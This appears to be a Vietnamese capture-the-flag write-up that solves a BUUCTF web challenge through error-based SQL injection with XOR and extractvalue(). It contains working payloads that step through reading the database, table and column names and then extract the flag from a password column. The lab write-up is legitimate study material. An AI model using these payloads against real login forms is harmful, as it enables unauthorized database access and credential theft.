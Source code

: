 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/96c61733-4748-4234-9d94-a804bd523724)

Ban đầu, mình có thử các payload cơ bản union, order by nhưng hầu hết đã bị filter hết.Sau khi thử extracvalue() với toán tử XOR thì thành công

Payload:

`username='^extractvalue(1,concat(0x7e,(select(database()))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/8ae8279c-ef36-42b7-9c2f-8a38107e7ad7)

Có table name r tìm column và data thôi.

Payload:

`/check.php?username='^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23&password=x`
 
 
`/check.php?username='^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/be362d52-8779-444b-8d2d-57f71c63ec51)

Flag nằm ở cột password

Payload:

`/check.php?username='^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/7ea88f39-e169-417f-9616-3415e9fd0f41)

Nhưng nó vẫn chưa ra hết flag, ta dùng hàm right để tìm phần sau

Payload:

`	/check.php?username='^extractvalue(1,concat(0x7e,(select(right(password,31))from(geek.H4rDsq1))))%23&password=x`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ea741871-605e-4915-872a-b01a047e5a3a)

Reference: 

https://www.foregenix.com/blog/introducing-xor-based-sql-injection?hs_amp=true

